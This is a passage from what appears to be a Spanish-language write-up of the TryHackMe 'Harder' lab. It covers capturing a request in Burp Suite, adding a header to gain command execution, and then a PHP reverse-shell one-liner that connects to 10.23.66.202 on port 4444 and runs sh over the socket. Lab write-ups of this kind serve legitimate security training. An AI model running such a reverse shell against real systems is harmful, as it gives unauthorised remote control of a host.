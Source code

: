 Intentamos mandar un comando y capturamos con burp suite.

Añadimos la cabecera como antes y comprobamos que podemos ejecutar comandos.

![alt text](/assets/img/writeups/tryhackme/harder/image-15.png)

Alternativamente podemos usar extensiones de navegador para modificar la cabecera.

![alt text](/assets/img/writeups/tryhackme/harder/image-16.png)

## Shell reversa

```bash
php -r '$sock=fsockopen("10.23.66.202",4444);exec("sh <&3 >&3 2>&3");'
```
